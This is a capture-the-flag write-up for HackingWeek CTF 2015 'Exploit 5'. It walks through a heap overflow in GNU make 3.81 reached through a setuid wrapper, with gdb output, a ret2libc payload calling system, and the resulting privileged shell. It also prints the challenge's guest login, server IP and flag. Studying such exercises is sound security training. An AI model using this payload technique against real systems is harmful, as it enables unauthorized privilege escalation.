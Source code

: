 # HackingWeek CTF 2015: Exploit 5
i
**Category:** exploit |
**Points:** 6106 |
**Solves:** 16 |
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit05/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up
 

For this exploit05, we have the package `make 3.81`, which is vulnerable to an heap-overflow (cf : https://www.exploit-db.com/exploits/34164/), and `safe-run` (suid binary that launch make).<br>
We'll use this one to try the heap overflow :


```bash
guest@ns314076:/home/exploit05/project$ ./safe-run $(python -c 'print "A"*4000 + "B"*96 + "CCCC" * 4')

make: stat: /home/exploit05/project/AAAAAA...AAAABBBBB...BBBBCCCCCCCCCCCCCCC: File name too long
Segmentation fault
```
<br>

Nice, let's analyse this segfault in GDB :

```bash
guest@ns314076:/home/exploit05/project$ gdb -q -ex "source /tmp/kaluche/peda/peda.py" --args safe-run
gdb-peda$ r $(python -c 'print "A"*4000 + "B"*96 + "CCCC" * 4')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x43434343 ('CCCC')
ECX: 0x2f2f2f2f ('////')
EDX: 0x2f2f ('//')
ESI: 0x43434343 ('CCCC')
EDI: 0xbfff6b10 --> 0xbfff7dd4 --> 0x80811c8 ("/home/exploit05/project/", 'A' <repeats 176 times>...)
EBP: 0xbfff6aa8 --> 0xbfff8df8 --> 0xbfffb148 --> 0xbfffd488 --> 0x0 
ESP: 0xbfff6a54 --> 0x792e ('.y')
EIP: 0xb7ee54d2 (<strrchr+34>:	mov    dl,BYTE PTR [esi])
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
```
<br>

Ok, we don't control EIP :'(<br>
After some tries, i finally get this : 


```
gdb-peda$ r $(python -c 'print "A"*4000 + "B"*124 + "C" * 4')
...
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x42424242 ('BBBB')
ECX: 0x807feb8 --> 0x160 
EDX: 0x807ff98 --> 0x732e ('.s')
ESI: 0x42424242 ('BBBB')
EDI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xbfff6400 --> 0x792e ('.y')
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xbfff6400 --> 0x792e ('.y')
0004| 0xbfff6404 --> 0x0 
0008| 0xbfff6408 --> 0xbfff6458 --> 0x0 
0012| 0xbfff640c --> 0x8084cb8 ('A' <repeats 200 times>...)
0016| 0xbfff6410 --> 0x8084cb8 ('A' <repeats 200 times>...)
0020| 0xbfff6414 --> 0x0 
0024| 0xbfff6418 --> 0x0 
0028| 0xbfff641c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
** 0x43434343 in ?? () **
```
<br>

EIP is now controlled !<br>
Let's see what protection are enabled :

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
gdb-peda$ aslr
ASLR is OFF
gdb-peda$ 

```
<br>

So we only need to bypass NX.<br>
To do this, we will store `sh ;` in our buffer, change EIP with the address of `system`, add JUNK bytes, and add the address of our buffer.<br>
Here we go :

```
gdb-peda$ r $(python -c 'print "sh;".ljust(4000,"A") + "B"*124 + "C"*4')
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()

gdb-peda$ x system
0xb7ea8c30 <system>:	0x890cec83
```
<br>

__SYSTEM > \x30\x8c\xea\xb7__

```
Stopped reason: SIGSEGV
0x43434343 in ?? ()
gdb-peda$ searchmem sh;
Searching for 'sh;' in: None ranges
Found 16 results, display max 16 items:
 [heap] : 0x8077958 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x80799e8 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x807f1c0 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x8080200 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x8081240 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x808329f ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x80842e7 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff4967 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff5a50 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff6cc0 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff7db0 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff9020 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffa110 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffb380 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffc460 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffefbe ("sh;", 'A' <repeats 197 times>...)
gdb-peda$ 
```
<br><br>

__BUFFER « sh ; » ADDRESS >  \x58\x79\x07\x08__

We got all we need !<br>
Let's go :

```bash
guest@ns314076:/home/exploit05/project$ ./safe-run $(python -c 'print "sh;".ljust(4000,"A") + "B"*124 + "\x30\x8c\xea\xb7" + "JUNK" + "\x58\x79\x07\x08"')
…
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB0���JUNKX: File name too long
sh-4.2$ id
uid=1000(guest) gid=1000(guest) euid=1005(exploit05) egid=1005(exploit05) groups=1005(exploit05),1000(guest)
sh-4.2$ whoami
exploit05
sh-4.2$ cd /home/exploit05/
sh-4.2$ cat .secret
EiN5ohqu5Ush-4.2$ 
```

__FLAG__: EiN5ohqu5U

And thx to RageYL for the help ;)

Enjoy,<br>
\- [Elkaluche](https://twitter.com/Elkaluche)
